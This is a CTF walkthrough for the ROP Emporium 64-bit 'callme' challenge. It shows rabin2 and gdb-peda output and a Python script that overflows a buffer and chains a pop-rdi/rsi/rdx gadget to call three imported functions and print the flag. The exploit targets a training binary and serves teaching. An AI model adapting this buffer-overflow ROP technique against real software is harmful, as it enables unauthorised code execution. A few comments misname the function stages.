

#ROP Emporium - 64bit - callme
https://ropemporium.com/challenge/callme.html

Challenge Description
Description for callme on ropemporium:
Reliably make consecutive calls to imported functions. Use some new techniques and learn about the Procedure Linkage Table.
Correct Order
You must call callme_one(), callme_two() and callme_three() in that order, each with the arguments 1,2,3 e.g. callme_one(1,2,3) to print the flag.
Our goal, as described, is to run callme_one, callme_two and callme_two with the paramaters 1, 2 and 3.
For this, we have to build a ROP chain.
1) Find the addresses of callme functions
Read the binary's imports to find the callme_one etc. functions and their Virtual Address in the binary
root@city64:~/ctf/ropemporium/3-callme# rabin2 -i callme
[Imports]
Num Vaddr Bind Type Name
1 0x00000000 WEAK NOTYPE _ITM_deregisterTMCloneTable
2 0x004017f0 GLOBAL FUNC puts
3 0x00401800 GLOBAL FUNC printf
4 0x00401810 GLOBAL FUNC callme_three
5 0x00401820 GLOBAL FUNC memset
6 0x00401830 GLOBAL FUNC __libc_start_main
7 0x00401840 GLOBAL FUNC fgets
8 0x00401850 GLOBAL FUNC callme_one
9 0x00000000 WEAK NOTYPE __gmon_start__
10 0x00401860 GLOBAL FUNC setvbuf
11 0x00401870 GLOBAL FUNC callme_two
12 0x00000000 WEAK NOTYPE _Jv_RegisterClasses
13 0x00401880 GLOBAL FUNC exit
14 0x00000000 WEAK NOTYPE _ITM_registerTMCloneTable
1 0x00000000 WEAK NOTYPE _ITM_deregisterTMCloneTable
9 0x00000000 WEAK NOTYPE __gmon_start__
12 0x00000000 WEAK NOTYPE _Jv_RegisterClasses
14 0x00000000 WEAK NOTYPE _ITM_registerTMCloneTable
callme_one is at 0x00401850
callme_two is at 0x00401870
callme_three is at 0x00401810
2) Find gadget to set up callme parameters
Each of these functions need to be called with three parameters - 1, 2 and 3 - callme_one(1, 2, 3)
The order of registers in 64-bit calling conventions is RDI, RSI, RDX, RCX etc.
Therefore:
• 1 needs to be in RDI
• 2 needs to be in RSI
• 3 needs to be in RDX
Because of this, we need to find a pop rdi; pop rsi; pop rdx; ret instruction.
Thankfully, we've been given one.
root@city64:~/ctf/ropemporium/3-callme# gdb -q callme
Reading symbols from callme...(no debugging symbols found)...done.
gdb-peda$ break main
Breakpoint 1 at 0x40199a
gdb-peda$ run
Starting program: /root/ctf/ropemporium/3-callme/callme
...
Breakpoint 1, 0x000000000040199a in main ()
gdb-peda$ ropsearch "pop rdi; pop rsi; pop rdx; ret"
Searching for ROP gadget: 'pop rdi; pop rsi; pop rdx; ret' in: binary ranges
0x00401ab0 : (b'5f5e5ac3') pop rdi; pop rsi; pop rdx; ret
A pop instruction for our parameters is available at 0x00401ab0.
3) Write exploit script
At this point, we have everything we need to run callme_one, callme_two and callme_two with the paramaters 1, 2 and 3.
Exploit plan
1. Overflow the buffer with 40 bytes of junk
2. Overwrite RIP with our pop pop pop ret instruction
1) write 1 to the stack for it be popped into RDI
2) write 2 to the stack for it be popped into RSI
3) write 3 to the stack for it be popped into RDX
3. Write the address of callme_one to the stack
◇ ret from pop pop pop ret will run the callme_one function
4. Repeat the above for callme_two and callme_three functions
Python Script
import struct
pop_pop_pop_ret = struct.pack('<Q', 0x00401ab0) # pop rdi; pop rsi; pop rdx; ret
one = struct.pack('<Q', 0x1)
two = struct.pack('<Q', 0x2)
three = struct.pack('<Q', 0x3)
callme_one_addr = struct.pack('<Q', 0x00401850)
callme_two_addr = struct.pack('<Q', 0x00401870)
callme_three_addr = struct.pack('<Q', 0x00401810)
payload = "A"*40 # offset to RIP
#Stage 1 - callme_one
payload += pop_pop_pop_ret # overwrite RIP
payload += one # pop 1 into RDI
payload += two # pop 2 into RSI
payload += three # pop 3 into RDX
payload += callme_one_addr # run callme_one()
#Stage 2 - callme_two
payload += pop_pop_pop_ret # return from callme_one to pop pop pop ret
payload += one # pop 1 into RDI
payload += two # pop 2 into RSI
payload += three # pop 3 into RDX
payload += callme_two_addr # run callme_two()
#Stage 3 = callme_three
payload += pop_pop_pop_ret # return from callme_three to pop pop pop ret
payload += one # pop 1 into RDI
payload += two # pop 2 into RSI
payload += three # pop 3 into RDX
payload += callme_three_addr # run callme_three()
print payload
4) Win!
root@city64:~/ctf/ropemporium/3-callme# python callmepwn.py | ./callme
callme by ROP Emporium
64bits
Hope you read the instructions...
> ROPE{a_placeholder_32byte_flag!}